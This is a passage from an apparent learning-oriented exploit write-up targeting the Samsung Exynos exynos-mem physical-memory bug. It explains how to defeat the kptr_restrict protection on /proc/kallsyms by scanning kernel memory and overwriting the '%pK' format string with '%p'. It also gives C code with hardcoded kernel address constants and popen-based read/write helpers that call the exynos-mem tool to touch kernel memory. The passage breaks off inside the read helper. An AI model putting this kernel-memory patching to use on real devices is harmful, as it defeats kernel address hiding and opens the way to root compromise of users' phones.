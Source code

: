 ```
and effective user and group ids are equal to the real ids.
```

Very interesting, and also gives us two interesting ideas regarding how to bypass the `kallsyms` restriction. The first is to simply find `kptr_restrict` and then change its value to `0`, while the other is to simply change the formatting of the print to `%p` instead of `%pK`.

I dove a bit into how we can find `kptr_restrict` and due to the string not appearing right before the value or the address to the value I decided to go for the other solution (although I do like the `kptr_restrict` solution and will implement it as well for learning).

So, this solution is quite simple and cool. We simply want to scan for the formatting of the `kallsyms printk`, and whenever we notice the pattern, we simply switch `%pK` with `%p `. This requires some C code, so let's get started.

First, we want to create some sort of a clean API to the program itself and to set some contants:
```c
// Kernel Parameters.
#define KERNEL_START (0x60008000) 
#define KERNEL_END (0x605065cf)
// The added offset to the PAGE_OFFSET. 
// For example, for 0xc0008000 it is 0x8000.
#define KERNEL_VIRT_OFFSET (0x8000) 
#define KALLSYMS "/proc/kallsyms"
#define KALLSYMS_FMT "%pK %c %s\n"
#define PATCHED_KALLSYMS_FMT "%p "
#define PATCHED_FMT_SIZE (3)
#define NSOWN_CAPABLE "nsown_capable"

// Misc.
#define MAX_SIZE (256)
#define MAX_SYM_SIZE (128)
#define CHUNK_SIZE (1024 * 50) // 50 KB.
#define EXYNOS_MEM_CMD_FMT_R "./exynos-mem %lu %d 0"
#define EXYNOS_MEM_CMD_FMT_W "./exynos-mem %lu %d 1"

void _exynos_mem_write(uint32_t address, uint8_t* data, uint32_t length) {
    FILE* fp;
    unsigned char cmd[MAX_SIZE] = { 0, };
    
    snprintf(cmd, sizeof(cmd), EXYNOS_MEM_CMD_FMT_W, address, length);
    printf("[*] Running Exynos-Mem Write @ %p\n", address);

    fp = popen(cmd, "w");
    if (!fp) {
        perror("popen failed.");
        exit(-1);
    }

    fwrite(data, 1, length, fp);

    pclose(fp);
}

void _exynos_mem_read(uint32_t address, uint32_t length, uint8_t* buf) {
    FILE* fp;
    unsigned char cmd[MAX_SIZE] = { 0, };
    uint32_t read_bytes = 0;
    
    snprintf(cmd, sizeof(cmd), EXYNOS_MEM_CMD_FMT_R, address, length);

    fp = popen(cmd, "r");
    if (!fp) {
        perror("popen failed.");
        exit(-1);
```